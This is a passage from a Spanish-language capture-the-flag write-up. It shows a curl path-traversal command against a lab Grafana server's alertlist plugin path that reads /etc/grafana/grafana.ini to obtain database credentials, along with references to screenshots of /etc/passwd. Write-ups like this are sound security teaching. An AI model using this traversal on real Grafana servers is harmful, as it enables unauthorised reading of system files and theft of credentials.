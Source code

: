 ![Imagen de /etc/passwd](</img/posts/CTF/incertidumbre/etcpasswd.png>) 

2. **/etc/grafana/grafana.ini:**  
   Este archivo es el principal de configuración de Grafana. Al analizarlo, descubrimos credenciales para conectarnos a la base de datos del servicio.

   ```bash
   └──╼ $curl --path-as-is http://10.0.2.14:3000/public/plugins/alertlist/../../../../../../../../etc/grafana/grafana.ini

   ```
![Imagen de /etc/passwd](</img/posts/CTF/incertidumbre/databasegr.png>) 

---